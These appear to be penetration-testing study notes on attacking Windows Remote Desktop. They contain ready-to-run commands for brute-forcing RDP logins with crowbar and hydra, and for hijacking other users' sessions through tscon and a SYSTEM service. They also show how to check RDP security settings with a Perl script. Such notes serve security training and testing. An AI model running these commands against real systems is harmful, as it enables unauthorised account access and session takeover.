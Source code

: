  - rdesktop
 - Remmina


## Attacks 
### Bruteforce
- crowbar 
```shell
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```
- hydra
```shell
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

### RDP Session Hijacking
- we need to have `SYSTEM` privileges and use the Microsoft `tscon.exe` binary
- we can use several methods to obtain SYSTEM privileges, such as `PsExec` or `Mimikatz`.
- `Note:` This method no longer works on Server 2019
```shell
# check user sessions
query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM


# hijack
tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}

# create a service to hijack
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

# start the sessionhijack service
net start sessionhijack
```


### RDP Security Check
```shell
# install cpan for installing Perl modules
$ sudo cpan
cpan[1]> install Encoding::BER

Fetching with LWP:
http://www.cpan.org/authors/01mailrc.txt.gz
```
A Perl script named `rdp-sec-check.pl` has also been developed by Cisco CX Security Labs that can unauthentically identify the security settings of RDP servers based on the handshakes.

```shell
$ git clone https://github.com/CiscoCXSecurity/rdp-sec-check.git && cd rdp-sec-check
$ ./rdp-sec-check.pl 10.129.201.248
```
